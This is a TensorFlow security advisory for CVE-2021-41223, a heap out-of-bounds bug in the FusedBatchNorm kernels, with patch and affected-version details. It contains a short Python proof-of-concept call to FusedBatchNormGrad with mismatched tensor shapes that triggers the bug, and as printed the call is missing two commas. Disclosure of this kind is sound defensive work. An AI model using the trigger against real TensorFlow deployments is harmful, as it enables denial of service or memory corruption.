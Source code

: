 ## TFSA-2021-169: Heap OOB in `FusedBatchNorm` kernels

### CVE Number
CVE-2021-41223

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/fused_batch_norm_op.cc#L1292) of `FusedBatchNorm` kernels is vulnerable to a heap OOB:

```python
import tensorflow as tf

tf.raw_ops.FusedBatchNormGrad(
  y_backprop=tf.constant([i for i in range(9)],shape=(1,1,3,3),dtype=tf.float32)
  x=tf.constant([i for i in range(2)],shape=(1,1,1,2),dtype=tf.float32)
  scale=[1,1],
  reserve_space_1=[1,1],
  reserve_space_2=[1,1,1],
  epsilon=1.0,
  data_format='NCHW',
  is_training=True)
```

### Patches
We have patched the issue in GitHub commit [aab9998916c2ffbd8f0592059fad352622f89cda](https://github.com/tensorflow/tensorflow/commit/aab9998916c2ffbd8f0592059fad352622f89cda).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
